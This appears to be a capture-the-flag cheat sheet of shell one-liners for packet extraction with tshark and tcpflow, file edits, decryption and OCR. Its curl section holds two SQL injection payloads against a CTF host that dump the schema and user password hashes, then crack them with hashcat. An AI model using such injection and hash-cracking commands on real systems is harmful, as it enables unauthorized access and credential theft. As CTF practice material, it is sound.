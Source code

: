 **tshark**</br>
```bash
tshark -r data.pcap -Y 'icmp and !(ip.src==128.227.236.205) and ip.src==10.136.255.127' -x | grep "0020" | cut -d" " -f5 | sed ':a;N;$!ba;s/\n//g' | xxd -r -p > output.gif
```
```bash
tshark -r pcap.pcap ip.src == 54.175.216.124 | rev | cut -d" " -f3 | rev | cut -d"." -f1 | xxd -r -p | grep -aEo "sun{.*}" | uniq
```

**find**
```bash
find . -type f -name "today*" -exec sed -i 's/apple/banana/g' \;
```

**tcpflow**
```bash
tcpflow -C -r ids_alert.pcap | sed -n "3p" | cut -d":" -f2 > key; tcpflow -C -r ids_alert.pcap | tr `tr "[:upper:]" "[:lower:]" < key``cat key` `python -c 'import string; print string.ascii_letters'` | grep -Eo "INSA{.*}"
```

**curl**
```bash
curl  --data-urlencode "username=username=data' union select group_concat(concat(table_name,0x20,column_name)) from information_schema.columns where table_schema=database()-- " -X POST https://crimemail.ctf.insecurity-insa.fr/hint.php
```
```bash
curl -s --data-urlencode "username=username=data' union select group_concat(concat(username,0x20,pass_salt,0x20,pass_md5)) from users-- " -X POST https://crimemail.ctf.insecurity-insa.fr/hint.php | grep -Eo "c\.hackle.*d" > hash; ./hashcat -a 0 -m 10 `awk '{print $3 ":" $2}' hash` rockyou.txt
```

**openssl**
```bash
openssl rsautl -decrypt -inkey privatekey.pem -in flag.bin -out decrypted.txt -raw
```

**tar**
```bash
tar xvfJ some
```

**tesseract**
```bash
tesseract some.png out
```

**rename**
```bash
rename "s/-/ /g" *
```
**env**
``bash
PS1="\[\033[01;32m\]\t:\u:\w$\[\033[0m\]"
```
